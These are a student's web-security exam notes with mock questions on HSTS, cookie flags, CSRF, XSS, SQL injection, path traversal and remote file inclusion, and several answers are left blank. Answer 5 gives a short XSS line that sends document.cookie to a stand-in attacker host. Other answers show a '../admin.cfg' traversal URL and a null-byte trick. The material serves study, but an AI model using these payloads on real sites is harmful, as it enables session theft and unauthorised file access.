


# Exam Preparation


## Exam Topics


### HSTS

HSTS stands for **HTTP Strict Transport Security** and tells the browser to only use HTTPS when communicating with the server and not relying on an insecure HTTP connection.  HSTS is a web security policy mechanism which helps to protect websites against **protocol downgrade attacks** and **cookie hijacking**.  HSTS allows a web server to force a client to subsequently communicate only over a secure channel. When the browser performs a request to a HSTS host, its behaviour is modified so every HTTP reference is upgraded to the HTTPS protocol before being accessed; TLS errors (e.g., self-signed certificates) terminate the communication session and the embedding of mixed content is forbidden. The HSTS policy is communicated by the server to the user agent via an HTTP response header field named "Strict-Transport-Security". HSTS policy specifies a period of time which the user agent should only access the server in a secure fashion. Facebook introduced this policy to their website in 2013: https://www.facebook.com/notes/facebook-engineering/secure-browsing-by-default/10151590414803920/ Before that time an attacker was able to intercept a request and serve a different page, including a fake login one (assumed he was trying to visit a subdomain of facebook (https://null-byte.wonderhowto.com/how-to/bypass-facebooks-hsts-0169414/)). Below you can find a https response from facebook when you're logged in.

* 


### Cookies: Secure and HttpOnly Flags: 

* Secure cookies are only ever sent over encrypted HTTPS connections. Encrypting the cookie itself, when it is sent over HTTP is pointless. Attackers can smiply replay a stolen encrypted cookie. **Protects against eavesdropping**.
* HttpOnly cookies can only be accessed over HTTP(S) and are not available to any other APIs. Therefore, they are inaccessible to scripts. **Protects against client-side scripts**
* HttpOnly Flag can be used to prevent XSS attacks for stealing cookies. Even if the HttpOnly Flag is set, it is still possible to steal a cookie from the user without breaking the TLS tunnel. Simply by letting the user request the attacker's website mafia.org and redirect him to the original page. Then the attacker can steal the cookie from the unencrypted http request.


## Mock Exam (english version)


1. Why is it a better idea to use rather a POST than a GET request when some paramters are confidential, although it is possible for an attacker who eavesdrops the network traffic to inspect the data in both cases?

	* It is true that POST and GET requests do not provide protection against eavesdropping out-of-the-box. There is no special encoding which would ensure protection. An attacker can read the sensitive data from the query string or from the body part of the HTTP request. The only difference between GET and POST requests is their purpose and behaviour. GET requests should only be used to request a ressource or retrieve data. GET should be used for idempotent operations, i.e. operations without side effects on the server. The drawback of a GET request is their visibile query string in the URL. A GET request should not be used for sensitive data because a GET request can be cached, bookmarked, has a maximum length and ends up in browser history. POST should be used to submit a request and has its parameters in its body. POST requests are never cached, cannot be bookmarked and do not end up in browser history. It also has no restrictions on length which emphasizes its purpose on submitting and not retrieving data.

2. How does HSTS work? Also try to explain what attacks HSTS tries to prevent and how.

	* HSTS stands for HTTP Strict Transport Security and can be useful to prevent MitM-attacks which are using SSL stripping. In contrast to a simple redirect by the server which indicates to the browser that it should use the https variant of the website instead of the http version, HSTS means that HTTP requests by the user will be turned into HTTPS requests. HSTS works on the very first visit of a website and is not using redirects. Therefore the first HTTP request never happens.


3. What is the difference between a normal and a blind SQL injection?

	* Blind SQL injection: a SQL injection where not the response itself is interesting, but the type of the response, or lack of response, leaks information to an attacker


4. Is CSRF abusing the trust of a website in the user or the trust of the client/user in the website? Elaborate your answer.

	* XSS exploits the trust a user has for a particular site. CSRF exploits the trust that a site has in a user's browser.


5. XSS attacks also use CSRF from time to time.	Draft an example of a XSS attack where CSRF is not used en an example of a XSS attack where CSRF is used as well.

	* XSS: Attacker injects a script into a website which executes which the victim's access rights in the victim's browser. Stealing victim's cookie with window.open("http://magia.org/steal.php?cookie=" + document.cookie); XSS attacks: reflected/non-persistent, stored/persistent, dom-based. XSS is a special form of HTML injection. Same-Origin-Policy restricts some interactions but does not really prevent this (prevents scripts access in iframes). XSP(Content security Policy) in HTML5 which uses whitelists of scripts could help.


6. 


	* ```
		<html><body>
		<iframe src="http://xx.com/x.html"> </iframe>
		<input type="button" value="Roep f aan op iframe above"
			onclick="frames[0].f();">
		</body></html>

	* a) Under which requirements is the invocation	of f allowed and when is it not allowed?

		* Answer

	* b) What is the motivation for such requirements/conditions based on a security perspective? With other words, which kinds of attacks are these requirements trying to prevent?

		* Answer


7. What is the difference between a "secure" cookie and an "HttpOnly" cookie?

	* Answer


8.  * a) What is a path traversal a.k.a file name injection attack?

		* A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).
		This attack is also known as “dot-dot-slash”, “directory traversal”, “directory climbing” and “backtracking”. It is also possible to use path traversal attack to execute a DoS attack by opening special files like "/var/spool/printer" which are not meant to be opened for reading, only for writing. Obviours places to look out for are URLs which include a file name as parameter: "http:/somesite.com/get-files.php?file=../admin.cfg". Trick to end the concatenation of a string for this area: using the NULL character "%00"

	* b) Name at least 10 counter measures against this kind of attacks and also explain how it works. 

		* Answer


9. SSL stripping makes it possible for an attacker to break up an HTTPS tunnel between the browser and the server and exchanging (i) a HTTP connection between the browser and himself and a HTTPS connection btween himself and the server or (ii) a HTTPS connection between the browser and himself and a HTTPS connection between himself and the server. What are advantages and disadvantages of the first case in contrast to the second case based on the perspective of the attacker?

	* Answer


10. How does a Remote File Inclusion attack work against a PHP web application?

	* Remote File Inclusion (RFI) allows an attacker to run arbitrary code on a server. For example including "http://mafia.com/function.php" as an option to some input on a website. If that does not work and the server disallows remote file inclusion then the attacker can still tryo Local File Inclusion (LFI) which executes scripts located on the server. The attacker could upload his own PHP code hidden as a profile picture and then point to his picture. The Null character trick can be helpful if the name of the script is hardcoded and should be excluded from the concatenation.


11. Assume someone has no Facebook-account. Is it possible that there is still a privacy risk where information is leaking towards Facebook?
	Elaborate your answer. Explain why there is a risk or why there is no risk. If there is a risk, explain what kind if information could leak and what the user could do against it.

	* Answer


12. This question is about the WebGoat assignment to spoof an authentication cookie.

	* 	
	* When you login on this website with the username "webgoat" and password "webgoat", the server sets a session cookie with the value "AuthCookie=65432ubphcfx". When you logout and then login again with the username "aspect" and password "aspect", then the value of the cookie gets set to "AuthCookie=65432udfqtb".
	How can you login as user "bob" without actually knowing his password? Which tools are required to execute this attack and how does it work?

		* Answer	


13. Two of the assignments on websecurity.cs.ru.nl had the goal to steal a cookie. Explain briefly the steps which are required for this attack and which kind of infrastructure the attacker needs.
	
	* Answer		
